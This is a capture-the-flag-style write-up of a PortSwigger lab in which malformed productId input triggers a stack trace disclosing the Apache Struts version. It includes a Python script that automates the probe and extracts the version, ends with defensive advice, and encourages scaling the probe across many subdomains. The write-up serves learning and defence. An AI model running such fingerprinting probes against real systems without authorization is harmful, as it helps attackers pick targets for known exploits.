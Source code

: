 ![ChatGPT Image May 26, 2025, 12_30_10 AM](https://github.com/user-attachments/assets/e1fd9956-dd41-4116-a370-652efc30779f)# 🧠 When Servers Overshare: Sniping Apache Struts with a Simple String Injection

**Author: Aditya Bhatt**
**Category: Web App Hacking | Recon | Info Disclosure | CVE Enumeration**

---

## 📜 Prelude to a Leak

Some bugs scream. Others whisper.

This one? It *accidentally drops its whole backend résumé* just because I threw a string into a parameter that expected a good ol’ integer. 💥

Today, I’ll walk you through **how I turned a bad typecast into a full-on reconnaissance goldmine**, discovered Apache Struts 2.3.31, and solved the PortSwigger lab with the swagger of a bounty hunter in a trench coat.

But wait… we’re not stopping at the PoC.
You’ll also get a **Python script to automate the whole shebang.** Let’s twist it up, automate the intel grab, and make devs cry (ethically, of course 🫡).

![Cover](https://github.com/user-attachments/assets/ced86192-c81b-4b11-95df-0eec8de711e9) <br/>

---

## 🕹️ TL;DR of the Attack

We take a `productId` endpoint, feed it malformed input (a string instead of an int), and the app coughs up a verbose error message containing its internal framework version.

We collect that info and submit it to solve the lab.
Simple, elegant, and deliciously leaky.

---

## ⚔️ Step-by-Step PoC (with 🗿 energy)

1. Go to Lab: [Burp Lab - Info Leak via Error Messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages). Open any product and capture the request.

![1](https://github.com/user-attachments/assets/63564d4b-edb7-4862-89de-f5356a5876ac) <br/>

2. Send `GET /product?productId=5` to Repeater.

![2](https://github.com/user-attachments/assets/5dbf3139-3a08-44fa-909c-f07312f370c7) <br/>

3. Observe the normal response. Yawn. 😴

![3](https://github.com/user-attachments/assets/bb5c7ef6-72b0-42bc-b9eb-ecfac8e571b0) <br/>

4. Now swap `5` with `"example"` → `productId="example"` and boom — 💥 full Java stack trace drops in your lap.

![4](https://github.com/user-attachments/assets/e353c281-1be2-48d2-bb79-595dfd29a3ee) <br/>

In the stack trace, we spot the vulnerable tech:
   **`Apache Struts 2 2.3.31`**
   
5. Submit this version in the lab.

![5](https://github.com/user-attachments/assets/9de6d6c2-7a87-4b52-ae15-fbd9d0b07532) <br/>

6. You just solved it. Now imagine doing this across 200 subdomains. That’s bug bounty artillery right there. 🚀

![6](https://github.com/user-attachments/assets/f555d51c-72da-4194-b8e0-59de7f407c7c) <br/>

---

## 🤖 Automation Script: Lab Destroyer 9000™

Here’s your script to *automate the whole lab*. Just plug in the **lab URL**, and it’ll throw a string payload, catch the error, extract the version, and print it like a true recon master.

> **⚠️ NOTE**: Make sure you’re logged into your PortSwigger Academy session in the same browser session (or use the session cookie in this script).

```python
import requests
import re

# 🔧 CONFIG
LAB_URL = "https://YOUR-LAB-ID.web-security-academy.net/product?productId="
PAYLOAD = '"injection"'

# 🧠 HEADERS (Optionally add your session cookie if needed)
headers = {
    "User-Agent": "Mozilla/5.0",
    # "Cookie": "session=YOUR_SESSION_HERE"
}

# 🚀 MAKE THE REQUEST
def extract_version():
    try:
        print(f"[+] Sending request to: {LAB_URL}{PAYLOAD}")
        response = requests.get(LAB_URL + PAYLOAD, headers=headers, timeout=10)

        if response.status_code == 200:
            # 🧙 Regex magic to find Apache Struts version
            match = re.search(r'Apache Struts 2(?:\.| )([0-9]+\.[0-9]+\.[0-9]+)', response.text)
            if match:
                version = "2." + match.group(1)
                print(f"[🎯] Apache Struts version disclosed: {version}")
                return version
            else:
                print("[-] No version info found. Maybe lab is patched or wrong URL.")
        else:
            print(f"[-] Unexpected response code: {response.status_code}")

    except Exception as e:
        print(f"[!] Exception occurred: {e}")

# 🔍 Run the extractor
if __name__ == "__main__":
    extract_version()
```

---

## 💭 Real World Implications

* That one version string? It’s a **fingerprint**.
* Apache Struts is notorious for **RCEs like CVE-2017-5638** — the Equifax breach? Yeah, it started with something like this.
* Once you know the version, you can map it against CVEs and craft custom exploits or pivot further.

---

## 🔐 Defensive Juju

* Never expose internal stack traces to the user.
* Catch your exceptions, log them server-side, and serve generic 500 pages to users.
* Use a WAF or RASP to detect parameter fuzzing.

---

## 🧠 Final Thoughts

Information disclosure is a **gateway bug**.
It rarely gives you root access upfront, but it **opens the door** to version detection, CVE chaining, and attack surface expansion. Every recon artist’s dream.

When in doubt, just toss in the wrong input and let the server do the talking.

---
